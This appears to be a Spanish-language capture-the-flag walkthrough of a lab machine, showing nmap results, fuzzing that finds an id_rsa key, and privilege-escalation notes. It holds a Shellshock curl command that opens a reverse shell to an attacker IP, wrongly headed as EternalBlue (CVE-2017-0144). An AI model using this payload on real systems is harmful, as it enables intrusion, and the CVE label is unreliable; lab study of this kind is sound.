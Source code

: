 ### nma
```python
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 57:20:82:3c:62:aa:8f:42:23:c0:b8:93:99:6f:49:9c (DSA)
|   2048 4c:40:db:32:64:0d:11:0c:ef:4f:b8:5b:73:9b:c7:6b (RSA)
|   256 f7:6f:78:d5:83:52:a6:4d:da:21:3c:55:47:b7:2d:6d (ECDSA)
|_  256 a5:b4:f0:84:b6:a7:8d:eb:0a:9d:3e:74:37:33:65:16 (ED25519)
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-title: 0day
|_http-server-header: Apache/2.4.7 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 33.39 seconds
```

### Ports

| PORT   | STATE | SERVICE | VERSION                                                         |
| ------ | ----- | ------- | --------------------------------------------------------------- |
| 22/tcp | open  | ssh     | OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 (Ubuntu Linux; protocol 2.0) |
| 80/tcp | open  | http    | Apache httpd 2.4.7 ((Ubuntu))                                   |

### Enumeración puerto 80

![[Pasted image 20240224203940.png]]

### Fuzzing con wffuzz

![[Pasted image 20240224204334.png]]
###### en el directorio backup encontramos un id_rsa
![[Pasted image 20240224204640.png]]

### Common Vulnerabilities and Exposures
###### CVE-2017-0144 - EternalBlue
```python
curl -A "() { :; }; echo Content-type: text/html; echo; /bin/bash -i >& /dev/tcp/10.8.74.185/7890 0>&1" "http://10.10.245.192/cgi-bin/test.cgi"
```

![[Pasted image 20240224212355.png]]

### Escalada de privilegios

###### sacamos el hash del id_rsa
![[Pasted image 20240224220415.png]]
parece que no funciona esta id_rsa

### Enumeracion del sistema

![[Pasted image 20240224224841.png]]
tenemos un exploit para esta version de linux. creamos un servidor y lo compartimos con la maquina
###### vamos a sobre escribir el path debido a que el actual parece estar dañado
```python
	export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```

